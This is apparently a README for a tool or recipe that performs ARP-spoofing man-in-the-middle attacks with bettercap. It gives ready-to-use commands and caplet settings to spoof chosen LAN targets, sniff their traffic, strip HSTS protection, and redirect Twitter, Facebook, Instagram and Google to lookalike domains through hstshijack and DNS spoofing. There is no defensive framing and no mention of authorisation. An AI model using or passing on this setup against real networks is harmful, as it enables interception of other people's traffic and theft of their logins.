 # ARPSppofer-w-bettercap

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
   ..a. `bettercap -iface <interface>`
  b. `net.probe on`
  c. `net.show`
  d. Pick a client and exit bettercap.
  e. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
  a. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
  b. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
  c. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
  a. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
  b. Targets and replacements could look like this… (customize to your liking)
    `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
  c. dns.spoof.domains could look like this... (customize to your liking)
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
  a. `bettercap -iface <interface> -caplet <capletfile>`
  b. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
  a. `hstshijack/hstshijack`
  b. `caplets.show`








